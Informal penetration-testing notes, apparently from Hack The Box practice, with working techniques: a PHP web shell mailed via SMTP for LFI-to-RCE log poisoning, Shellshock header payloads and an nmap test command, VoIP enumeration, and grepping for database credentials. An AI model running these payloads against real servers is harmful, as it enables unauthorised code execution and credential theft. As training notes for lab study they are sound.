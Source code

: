 Will organize things along the way 😌

When port 25 is open, and we have found an LFI on the server, then we can perform LFI2RCE through SMPT Log Poisoning. There are two ways (as far as I know) to do it. I'm going to
cover the one I have experience with.

First, read /etc/passwd through LFI and get interesting users. Then, connect to SMTP with

```
telnet <ip address> 25 (nc should work too)
```
Verify the users like so:
```
VRFY $user@localhost
```
If we get back

252 2.0.0 $user@localhost

Then we are good and we can syntax the malicious mail
```
mail from: temp
rcpt to: $user@localhost
data
Subject: Bruh
<?php echo system($_REQUEST['cmd']); ?>
.
```
Then we can go ahead and close our connection with ```quit```. Now, this mail is stored in the user's /var/mail file. Since we added a valid php script in the mail, it was passed
into the file, and we can freely use the cmd parameter to execute commands in the system and have it echo them back to us. Now we can pass e.g. a reverse shell.

References:
https://janithmalinga.github.io/redteam/ctf/2020/02/12/Using-LFI-and-SMTP-to-get-a-Shell.html
https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/ (the other way is specified here)
https://www.youtube.com/watch?v=XJmBpOd__N8

-------------------------------------------------------------------------

Beep from HTB had a possible RCE exploit which was based on VoIP. For now I don't know the whole concept, but I think I understand a general way of attacking VoIP. Essentially,
devices in a network are given an extension, i.e. a number by which they can be identified by the PBX server. So we try to find the extensions that are open, and attack them. In
a real-life scenario we probably intercept the traffic during the authentication phase and dump the creds, in boxes not really 😩 (unless bots exist)
https://www.exploit-db.com/docs/english/18136-paper-enumerating-and-breaking-voip.pdf


I'm gonna let this nicely written piece of text do the explanation for me
```
When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
```
TLDR if cgi-bin exists, then a possible entry point is shellshock. We can try testing for this manually by changing the headers to ```() { :;}; echo; echo 1```
Notice the second echo. It might be necessary for the exploit to work and write out the proper output. Another way we can check is though the nmap script engine
```
nmap -sV -p<ports> --script http-shellshock --script-args uri=<path>,cmd=ls <target>
```
Some PointsOfInformation. It may be necessary to execute a script by calling its absolute path

```
() {:;}; echo; /bin/ls
```

References:
https://nmap.org/nsedoc/scripts/http-shellshock.html
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://github.com/opsxcq/exploit-CVE-2014-6271
https://www.youtube.com/watch?v=IBlTdguhgfY


------------------------------------------------------------

If we gain access to a webserver (I'd say this applies more to low priv
access), and the machine is running PHP and a database, then we can search
for credentials to connect to said database. We could try something like:
```
grep -r <pattern-here> ./*
```
For the pattern we can use words like password, database, username, and once
we find an interesting one, we can search the file from which it came from.
